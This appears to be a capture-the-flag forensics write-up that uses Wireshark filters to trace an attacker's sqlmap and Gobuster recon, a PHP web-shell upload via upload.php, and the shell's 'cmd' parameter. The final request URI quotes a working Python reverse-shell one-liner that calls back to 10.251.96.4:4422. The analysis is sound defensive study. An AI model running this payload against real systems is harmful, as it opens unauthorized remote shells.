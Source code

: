 Looking at the output, there are two well-known recon tools that stand out: `Gobuster 3.0.1` and `sqlmap 1.4.7`.

### What is the name of the php file through which the attacker uploaded a web shell?

An upload would be done through a POST request, which we can filter for:

`http.request.method==POST`

We get a lot of `HTML Form URL Encoded: application/x-www-form-urlencoded`, which we can see are brute forces by sqlmap. Let's filter these out by right-clicking the User-Agent section (Packet Details → Hypertext Transfer Protocol) then Apply as Filter → ...and not Selected. This gives us the following filter:

`(http.request.method==POST) && !(http.user_agent == "sqlmap/1.4.7#stable (http://sqlmap.org)")`

Now we have only four packets! Two for `login.php` and two for `upload.php`.

Initially I thought `upload.php` was the answer, but I had to look a bit deeper.

What we actually need is the referer. This is also found within Hypertext Transfer Protocol within Packet Details. This gives us:

`Referer: http://10.251.96.5/editprofile.php\\r\\n`

So, `editprofile.php` uses `upload.php` to upload things. Makes sense.

### What is the name of the web shell that the attacker uploaded?

The files uploaded via `upload.php` are found within the `MIME` section within the Packet Details. Specifically, we're looking for `Content-Disposition` (or, put another way, anything that includes a filename!)

The two files are:

`myphoto.png`

`dbfunctions.php`

It's more likely a web shell is php than png.

Let's see how the php file was used. A simple, broad search is:

`frame contains dbfunctions.php`

Yeah, some of that looks like web shell activity! For comparison, the same search for `myphoto.png` gives nothing except the actual upload.

### What is the parameter used in the web shell for executing commands?

The previous `frame contains` search shows it was used three times (in the pcap at least):

- `Request URI: /uploads/dbfunctions.php?cmd=id`
- `Request URI: /uploads/dbfunctions.php?cmd=whoami`
- `Request URI: /uploads/dbfunctions.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.251.96.4%22,4422));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27`

